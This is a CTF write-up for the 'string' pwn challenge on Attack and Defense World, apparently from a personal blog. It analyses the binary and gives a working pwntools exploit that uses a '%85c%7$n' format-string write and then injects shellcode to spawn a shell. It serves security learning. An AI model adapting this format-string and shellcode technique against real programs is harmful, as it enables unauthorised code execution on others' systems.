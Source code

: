 ```yaml
---
title: "Pwn String WriteUp in 'Attack and Defense World'"
date: 2021-12-30
tags: ["CTF", "Pwn", "writeup", "wp"]
authors: [nova]
---
```


## Random Thoughts at the Beginning

Why is this Pwn challenge so difficult? Can't understand the WriteUp at all. ~~Quitting Pwn immediately~~

Anyway, let's start by taking down this newbie area of the Attack and Defense World.

After a few days of ~~not-so-systematic three days of fishing and two days of drying nets~~ studying, I can only say I am extremely confident now.

**String** should be the most interesting and challenging challenge in the novice area of the Attack and Defense World. Let's do this!

<!--truncate-->

## Let's Go

### Analysis

![exeinfope](https://oss.nova.gal/img/image-20211101153717286.png)

![checksec](https://oss.nova.gal/img/image-20211101153833049.png)

In summary, let's do a quick scan. There is no PIE in 64-bit.

Let's first look at the main function.

![main](https://oss.nova.gal/img/image-20211101153942250.png)

v4 allocates memory of **8 bytes** to store the data `68, 85`, and then it prints out the addresses of these two data.

Let's dive into `sub_400D72()`.

![sub_400D72()](https://oss.nova.gal/img/image-20211101154214749.png)

It asks us for a name, but the length of the input for 's' is checked, so no buffer overflow seems possible.

Let's continue to check the other functions. First, it's `sub_400A7D()`.

![sub_400A7D()](https://oss.nova.gal/img/image-20211101154750528.png)

> As a side note for improving English skills, let's translate this(?):
>
> > This is a famous yet unusually different tavern. The air here is fresh, the marble floor is clean. There are hardly any noisy customers, and the furniture is not damaged as commonly seen in fights at other taverns in this world. The decoration is extremely gorgeous, looking like it belongs in a palace, but in this city, it's quite ordinary. In the center of the room are chairs and benches covered with velvet, surrounded by a large oak table. A large sign is fixed on a wall to the north behind a wooden strip. In one corner, you find a fireplace. There are two noticeable exits: east and up. Strangely, there is no one there, so where do you go?
>
> This background is not unattractive per se, but translating it feels like a waste of time.
>
> ~~I am a silly assistant~~

So, we are given the choice to go `east` or `up`, but looking at the code below, it seems we can only choose `east` (choosing `up` will lead you to an endless pit). Let's move on to `sub_400BB9()`.

![sub_400BB9()](https://oss.nova.gal/img/image-20211101173616709.png)

Here, it mentions `address`, which easily connects to our earlier `v4`. It seems we need to manipulate v2 and the format string, but the exact operation is not clear yet. Let’s continue with `sub_400CA6()`.

![sub_400CA6()](https://oss.nova.gal/img/image-20211101174119436.png)

This 'a1' is actually our initial v4, so we need to make `*v4 = v4[1]`.

Pay attention to `((void (__fastcall *)(_QWORD))v1)(0LL);`, this line converts v1 into an executable function (void as return type, \_\_fastcall as a calling convention), meaning we can now inject shellcode.

### Payload

The next step is how to achieve it.

Let’s write the first few fixed steps:

![exp_01](https://oss.nova.gal/img/image-20211102105044906.png)

Now, we need to introduce the format string vulnerability, [learn more](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/).

We need to find the position of v4 in the stack and craft our payload accordingly:

```python
payload = 'AAAA'+'.%x'*10
```

![addr_info](https://oss.nova.gal/img/image-20211102105300535.png)

We see that our `41414141` is in the eighth position on the stack, and the v4_addr we wrote is in the previous position. At this point, we can craft a payload to make \*v4=85:

```python
payload = '%85c%7$n'
```

![return_0](https://oss.nova.gal/img/image-20211102105850378.png)

Now we have satisfied the conditions in `sub_400CA6()`, so we just need to inject a shellcode to get a shell.

Complete payload:

```python
from pwn import *
context(log_level='debug')

sh = process('./1d3c852354df4609bf8e56fe8e9df316')

sh.recvuntil('secret[0] is ')
v4_addr = int(sh.recvuntil('\n')[:-1], 16)
print(v4_addr)

sh.recvuntil('be:')
sh.sendline(b'yuusya')
sh.sendlineafter('east or up?:\n', b'east')
sh.sendlineafter('leave(0)?:\n', b'1')

# *v4 = 85
sh.sendlineafter("address'\n", str(v4_addr))
payload = '%85c%7$n'
sh.sendline(payload)
sh.recvuntil('I hear it')
context(arch='amd64', os='linux')
sh.sendlineafter('SPELL', asm(shellcraft.sh()))
sh.interactive()
```

<!-- AI -->
